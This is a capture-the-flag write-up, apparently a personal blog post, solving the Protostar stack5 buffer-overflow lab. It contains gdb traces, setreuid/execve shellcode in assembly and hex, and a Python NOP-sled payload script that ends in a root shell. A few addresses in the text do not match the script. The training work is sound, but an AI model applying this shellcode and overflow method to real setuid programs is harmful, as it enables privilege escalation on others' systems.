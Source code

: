 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: security protostar
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to unlike previous challenges.
So we will have to create and use our own shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}

As usual `gets` is the vulnerable function here.
As seen from `stack4` exercise, first we need to find where RET return address is located in main.
Let us first see main's disassembly
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}

`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack.
Then new `$ebp` points to current `$esp`.
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
The RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.

We add few break points and then run program to see value of various registers.
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}


We hit first breakpoint before the first instruction.
Here we see $ebp has `0xbffffd78`. This is `$ebp` value of caller
 which will be now pushed to stack. {% highlight nasm %}(0x080483c4 <main+0>:    push   ebp)

(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
This is break just before calling gets(buffer).
Here we see $ebp is 0xbffffcc8. This was due to {% highlight nasm %}(mov    ebp,esp)`{% endhighlight %}
and is basically where callers $ebp is stored.
In Intel architecture, the address of buffer is saved to top of stack $esp just before calling func.
So `$esp` points to buffer location ie `$esp` contain the location of buffer.
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.

Since `gets` would start input from this address, we attempt to overflo this buffer just
so that `RET` is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Since `RET` is after `$ebp`, start of `RET` is `$ebp+4`
So we need to overwrite dummy chars upto `RET` ie `startRET - startbuffer`
ie `0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)`

To test this, in a separate terminal, rerun with this as input

{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see `$eip` which is the return pointer is overwritten as `0xdeadbeef` and we get `SIGSEGV`.
So we have 76 chars before `RET` where we can store our shell code or we can also store it after `RET`.
We will try to store it before `RET`.

First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5]. 
There are multiple tutorials available on how to write shell code which can be referenced.

{% highlight nasm %}
;shellex.asm
[SECTION wtext write]

global _start


;shellex.asm
section wtext write

global _start


_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80

    jmp short    mycall           ; Immediately jump to the call instruction

    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string

        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call

    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}

Most of the shellcode is same as given in link but i had to add `[SECTION wtext write]`
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]

{% highlight nasm %}
nasm -felf get_shell.asm
ld -melf_i386 -o get_shell get_shell.o
./get_shell
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell_session %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}

So we prepare a python script to prepare payload. `\x90` is ASCII for `NOP`.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"


payload = nopsled + shellcode + "JJJJ" + ret

print payload
{% endhighlight %}

So basically we are overwriting `$ebp` frame pointer with "JJJJ".
nopsled + shellcode should total 72.

But wait why is `RET` here as `0xbffff790`. Shouldn't it be start of our
buffer ie `0xbffffc80`. Well i tried with `RET` as `0xbffffc80` but got `SEG`
Which has something to do with running through `gdb` also taking into buffer some
enviroment variables which change the addresses.

To understand better we try to analyze the core file.
So we login as `root` in protostar. Password for which is `godmode`.
Below we first enable core dumps and then overwrite `RET` with `0xDEADBEEF` to see
at what address buffer writing started.
{% highlight shell_session %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()

(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}

Ok. so we overwrote `RET` properly coz `$eip` is `0xdeadbeef`.
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from `0xbffffcb0`.
Since we will be starting from `0xbffffcb0` our RET should now point to it, ie
beginning of our shell code.

{% highlight shell_session %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

So we successfully spawned a shell as root.
One thing to note. We could spawn a shell as root coz this is a setuid program.
Or else we would have got shell as a normal user.

[stack-5]:https://exploit-exercises.com/protostar/stack5/
[shellcode5]:http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]:https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]:https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt